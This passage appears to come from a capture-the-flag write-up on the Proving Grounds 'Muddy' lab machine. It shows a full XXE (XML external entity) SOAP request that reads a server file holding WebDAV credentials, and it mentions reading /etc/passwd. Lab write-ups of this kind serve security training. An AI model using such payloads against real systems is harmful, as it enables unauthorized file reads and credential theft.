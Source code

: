 > **Note:** Change the `urn` element as per the method allowed in the application.

![img](/assets/images/CTF/Proving_Grounds/Muddy/web3.png)

Replace the `/etc/passwd` with `/var/www/html/webdav/passwd.dav` to get the `webdav` credentials.

**Request**

```http
POST /muddy/soap11 HTTP/1.1
Host: muddy.ugc:8888
User-Agent: curl/7.87.0
Accept: */*
Content-Type: text/xml;charset=UTF-8
SOAPAction: "http://muddy.ugc:8888/muddy/soap11/sayhello"
Content-Length: 514
Connection: close

<?xml version="1.0"?>
<!DOCTYPE uid
[
<!ENTITY passwd SYSTEM "file:/var/www/html/webdav/passwd.dav">
]>
<soapenv:Envelope
	xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
	xmlns:xsd="http://www.w3.org/2001/XMLSchema"
	xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"
	xmlns:urn="urn:HelloService">
	<soapenv:Header/>
	<soapenv:Body>
		<urn:checkout soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
			<uid xsi:type="xsd:string">&passwd;</uid>
		</urn:checkout>
	</soapenv:Body>
</soapenv:Envelope>
```

